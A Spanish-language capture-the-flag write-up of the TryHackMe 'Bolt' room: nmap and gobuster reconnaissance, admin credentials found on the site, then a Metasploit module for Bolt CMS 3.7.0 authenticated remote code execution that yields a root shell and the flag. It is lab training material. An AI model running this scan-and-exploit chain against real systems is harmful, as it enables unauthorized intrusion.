# Bolt

## Información General

<h3>Dificultad:  </h3>

<h3> Sistema operativo: Linux </h3> 

<h3> Vulnerabilidad explotada: Remote Code Execution </h3>

<h3> Fecha de resolución: 05/07/2025 </h3>

<h3>Enlace de la mv: <a href="https://tryhackme.com/room/bolt" target="_blank">Bolt</a></h3>

### *Leer el documentro en Ingles:* <a href="bolt_ingles.md">Bolt</a>

## Reconocimiento

TryHackme nos proporciona la ip de la máquina objetivo **ip_objetivo**

Voy a establecer en el fichero **/etc/hosts** la **ip de la mv objetivo**, la voy a llamar **bolt**

<p align="center"> 

</p>

### Ping

Dependiendo del resultado podemos deducir si es una máquina **linux** o **window**, por ejemplo:

```
ping -c 1 bolt
```

**Su ttl es 63, por tanto es Linux**

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn bolt
```

<p align="center"> 

</p>

<div align="center">

| Open port | Service | Version                         |
| --------- | ------- | ------------------------------- |
| 80        | http    | Apache httpd 2.4.29             |
| 22        | ssh     | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 8000      | http    | syn-ack ttl 63                  |

</div>

#### Escaneo de puerto UDP

```
nmap -sU --top-ports 200 --min-rate=5000 -Pn bolt
```

**Ningún puerto abierto**

## Exploración

### Fuzzing web

```
gobuster dir -u http://bolt:8000/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
```

<p align="center"> 

</p>

```
http://bolt:8000/
```

<p align="center"> 

</p>

*Hola a todos, Bienvenidos a este sitio. Soy Jake y mi nombre de usuario es Bolt. Soy nuevo en este CMS, así que puede que me lleve un tiempo acostumbrarme, pero créanme, ¡tengo contenido excelente para ustedes! Saludos, Jake (Administrador)*

```
http://bolt:8000/entries
```

<p align="center"> 

</p>

*Hola chicos, Supongo que este es nuestro foro secreto, ¿verdad? Hoy publiqué mi primer mensaje para nuestros lectores, pero parece que hay mucho espacio libre. ¡Échenle un vistazo! Mi contraseña es boltadmin123 por si la necesitan. Saludos, Jake (Administrador)*

Tenemos hasta ahora:

**Usuario**: bolt
**Contraseña**: boltadmin123

Luego, se me ocurre buscar en el navegador como se inicia sesion con el cms bolty me aparece lo siguiente:

```
http://bolt:8000/bolt/login
```

<p align="center"> 

</p>

Ingreso las credenciales , y al ingresar en la esquina izquierda inferior me encuentro la version que usa el cms bolt

<p align="center"> 

</p>

Luego en la pagina exploit database en el buscador busco bolt y me aparece lo siguiente:

<p align="center"> 

</p>

Bolt CMS 3.7.0 - Authenticated Remote Code Execution, luego una vez dentro en la esquina izquierda podemos encontrar la id del exploit.

<p align="center"> 

</p>

## Explotación

En Metasploit usamos el comando **search** para buscar alguna vulnerabilidad de **bolt**

```
search bolt
```

<p align="center"> 

</p>

```
use 0
show options
```

<p align="center"> 

</p>

```
set LHOST 10.2.139.36
set RHOST 10.10.136.240
set USERNAME bolt
set PASSWORD boltadmin123
show options
```

<p align="center"> 

</p>

```
run
```

<p align="center"> 

</p>

Somos **root** lol

Luego en la ruta **/home**

```
cat flag.txt
```

<p align="center"> 

</p>

**Máquina terminada**

## Conclusión

Esta máquina ha sido muy fácil, con solo tener **un buen ojo**, en la página te encuentras el usuario y la contraseña. Lo único que me costo fue encontrar la **url del login del cms bolt.** Luego, la máquina también te guía un poco a que pagina del navegador tienes que visitar  **exploitdb**, luego el exploit lo automatiza con metasploit con un módulo. La escala no es necesario ya que inicias como root, y encontrar la flag es muy sencillo.